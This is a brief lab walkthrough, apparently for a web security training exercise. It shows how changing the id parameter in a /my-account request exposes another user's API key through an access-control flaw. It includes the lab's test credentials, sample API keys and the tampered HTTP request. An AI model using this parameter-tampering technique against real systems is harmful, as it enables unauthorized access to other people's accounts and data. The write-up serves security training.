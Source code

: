 # User ID controlled by request parameter with data leakage in redirect

## This lab contains an [access control]vulnerability where sensitive information is leaked in the body of a redirect response.

## To solve the lab, obtain the API key for the user `carlos` and submit it as the solution.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login click on my account

/my-account?id=wiener
Your API Key is: Bzcv5EJwxkUCuy3xoPqiwdp0yx0D9Zgl

change wiener to carlos and intercept
send to repeater
GET /my-account?id=carlos HTTP/1.1
and send request
Your API Key is: gQW7tI9a54ob6iDnYhFvPUmHBL3cDO3Y
submit api key and relaod the page lab solved
